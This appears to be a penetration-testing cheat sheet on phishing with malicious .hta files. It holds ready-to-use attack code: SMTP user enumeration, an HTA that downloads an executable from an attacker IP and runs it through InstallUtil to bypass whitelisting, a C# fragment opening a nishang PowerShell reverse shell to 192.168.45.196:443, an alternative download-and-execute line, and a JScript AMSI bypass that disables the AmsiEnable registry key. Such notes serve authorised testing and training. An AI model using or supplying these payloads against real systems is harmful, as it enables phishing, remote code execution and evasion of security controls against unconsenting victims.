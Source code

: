 ## Phishing via .hta files

- if Office does not appear to be working for you, can try sending an email with a malicious .hta file link.

### Enumerating email users

Try using smtp-user-enum with the Seclists's names.txt
For the mode, use telnet to connect and try VRFY, EXPN and RCPT to see which works

```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -D tricky.com -t 192.168.174.159
```

### PowerShell Download Exe + InstalUtil to run Powershell
- if IEX is blocked, then no gucci. but can try putting the entire nishang (obfuscated) powershell rev shell straight into bypass.exe (see example below)

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell wget http://192.168.45.196/bypass.exe -o C:\\Windows\\tasks\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\Windows\\tasks\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>

```
Except from bypass.exe with nishang
```csharp
String cmd2 = "$cli = New-Object Net.Sockets.TCPClient('192.168.45.196', 443);$NStream = $cli.GetStream();<snip>....";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
```

if the above doesnt work try
```
var ress = shell.Run("powershell.exe wget http://172.21.23.10/inj_runner.exe -o C:\\users\\public\\runner.exe; C:\\users\\public\\runner.exe");
```

### jscript shellcode runner from .hta
- slam your shellcode inside the .hta with AMSI bypass
```js
//Amsi Bypass Block (may need to play around with the key strings and variables)

var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\A"+"m"+"siE"+"na"+"ble";

//if AmsiEnable does not exist, throw an error which then goes to the catch
try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	//cscript is the cli version of wscript
	//we need to provide the GUID of HKLM\Software\Classes\CLSID
	//inside would be jscript.dll
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}

< put the dotnet2js shellcode here>
```
if it does not work then host this as a .js file on your apache server and have your .hta download the .js and execute via Wscript